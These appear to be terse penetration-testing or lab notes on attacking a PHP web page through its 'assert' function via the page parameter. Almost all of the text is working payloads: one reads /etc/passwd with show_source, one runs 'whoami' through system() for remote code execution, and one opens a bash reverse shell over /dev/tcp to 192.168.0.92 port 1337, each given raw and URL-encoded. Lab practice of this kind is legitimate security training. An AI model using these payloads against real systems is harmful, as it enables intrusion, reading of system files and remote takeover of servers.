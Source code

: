LFI via PHP ‘assert’ function

[http://192.168.0.189/index.php?page=schedule](#http://192.168.0.189/index.php?page=schedule)
' and die\(show\_source\('/etc/passwd'\)\) or '

GET /index\.php?page=schedule' and die\(system\("whoami"\)\) or ' \*\* RCE \*\*

use RCE to get reverse shell

GET / index\.php?page=schedule%27%20and%20die%28system%28%22whoami%22%29%29%20or%20%27

GET /index\.php?page=schedule' and die\(system\("bash \-c 'bash \-i \>\& /dev/tcp/192\.168\.0\.92/1337 0\>\&1'"\)\) or '
GET /index\.php?page=schedule%27%20and%20die%28system%28%22bash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F192%2E168%2E0%2E92%2F1337%200%3E%261%27%0A%22%29%29%20or%20%27